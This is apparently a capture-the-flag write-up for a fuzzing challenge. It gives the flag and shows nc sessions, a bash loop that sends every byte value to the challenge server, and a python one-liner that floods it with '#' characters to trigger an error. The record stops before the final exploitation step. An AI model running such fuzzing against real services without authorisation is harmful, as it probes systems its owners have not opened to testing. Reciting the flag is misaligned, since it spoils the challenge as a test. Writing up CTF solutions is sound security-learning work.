 **Flag**

```
ThIsOneIsAbITFuZZy-6y
```

### Solution

When we connect to the host, we see this:

```bash
$ nc cfta-bx02.allyourbases.co 8013
Come Fuzz Me Bro.
DEBUG: Waiting 100ms

DEBUG: Input length too large.
```

Let's try sending every character from `\x00` to `\xff` to see if the server responds differently to any of them:

```bash
$ for i in {0..255}; do echo $(printf '\\x%02x' $i) | timeout 3 nc cfta-bx02.allyourbases.co 8013 | grep -q "Input length too large." || echo "$(printf '\\\\x%02x\t\\x%02x' $i $i)"; done
\x23    #
```

Looks like `#` receives a different message. Let's see what happens when we send a `#`:

```bash
$ nc cfta-bx02.allyourbases.co 8013
Come Fuzz Me Bro.
DEBUG: Waiting 100ms
#
DEBUG: Waiting 100ms
```

Instead of saying the input length is too large, it continues to wait for more input... So let's give it more input:

```bash
$ python -c "print('#'*2500)" | nc cfta-bx02.allyourbases.co 8013
Come Fuzz Me Bro.
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Input length too large.
ERROR: Expected userID Variable of 1.
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
```
